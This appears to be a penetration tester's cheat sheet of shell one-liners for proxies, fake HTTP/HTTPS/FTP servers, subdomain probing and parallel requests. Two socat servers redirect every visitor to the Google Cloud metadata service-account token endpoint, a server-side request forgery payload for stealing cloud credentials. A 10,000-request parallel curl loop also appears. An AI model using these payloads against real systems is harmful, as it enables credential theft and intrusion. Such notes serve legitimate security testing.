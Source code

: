 <br># SOCKS Proxy
<br>```ssh -N -D 0.0.0.0:1337 localhost```

<br># Fake HTTP Server
<br>```while true ; do echo -e "HTTP/1.1 200 OK\nContent-Length: 0\n\n" | nc -vl 1.2.3.4 80; done```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```FILE=image.jpg;socat -v -d -d TCP-LISTEN:80,fork "SYSTEM:/bin/echo 'HTTP/1.1 200 OK';/bin/echo 'Content-Length: '`wc -c<$FILE`;/bin/echo 'Content-Type: image/png';/bin/echo;dd 2>/dev/null<$FILE"``` # Present an image
<br>```python2 -m SimpleHTTPServer 8080```
<br>```python3 -m http.server 8080```
<br>```php -S 0.0.0.0:80```
<br>```ruby -run -e httpd . -p 80```
<br>```busybox httpd -f -p 80```
    
<br># Fake HTTPS Server
<br>```openssl req -new -x509 -keyout test.key -out test.crt -nodes```
<br>```cat test.key test.crt > test.pem```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=test.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=web.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```stunnel stunnel.conf``` # Check https://www.stunnel.org/

<br># Python 3 Simple HTTPS Server
```
    import http.server, ssl
    server_address = ('0.0.0.0', 443)
    httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='/path/cert.pem', ssl_version=ssl.PROTOCOL_TLS)
    httpd.serve_forever()
```

<br># Fake FTP Server
<br>```python -m pyftpdlib --directory=/tmp/dir/ --port=21```

<br># Check HTTP or HTTPS
<br>```while read i; do curl -m 15 -ki http://$i &> /dev/null; if [ $? -eq 0 ]; then echo $i; fi; done < subdomains.txt```
<br>```while read i; do curl -m 15 -ki https://$i &> /dev/null; if [ $? -eq 0 ]; then echo $i; fi; done < subdomains.txt```

<br># Ten requests in parallel
<br>```xargs -I % -P 10 curl -H 'Connection: close' -s -D - -o /dev/null https://example.com < <(printf '%s\n' {1..10000})```

<br># Access target directly through IP address
<br>```http://1.2.3.4```
<br>```https://1.2.3.4```
